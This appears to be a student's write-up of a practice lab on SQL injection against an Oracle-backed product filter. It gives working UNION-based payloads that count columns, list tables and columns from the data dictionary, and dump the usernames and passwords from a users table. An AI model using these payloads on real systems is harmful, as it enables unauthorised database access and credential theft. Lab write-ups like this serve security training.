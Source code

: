 # Lab 06 :  SQL injection attack, listing the database contents on Oracle

## Overview:
- Level : PRACTITIONER
- SQL Injection on product category filter
- Union attack
- End Goal : Determine the name of this table and the columns And  log in as the administrator user. 



## Analysis:
- put ' as product category it give 500 internal server error


## Solution:
- determine number of column
    ' UNION SELECT 'def' FROM dual-- gives 500 internal server error
    ' UNION SELECT 'def','adfs' FROM dual-- gives 200 ok responce
    so there are two column

- to get details about tables
    ' UNION SELECT table_name,NULL FROM all_tables--

- USERS_SAJPJE table contains username and passwords

- to get columns name of USERS_SAJPJE table
    ' UNION SELECT column_name,NULL FROM all_tab_columns  WHERE table_name='USERS_SAJPJE'--

- columns
    PASSWORD_VMXBIK
    USERNAME_RMIXAP
    EMAIL

- get usernames and passwords
    ' UNION SELECT USERNAME_RMIXAP,PASSWORD_VMXBIK FROM USERS_SAJPJE--
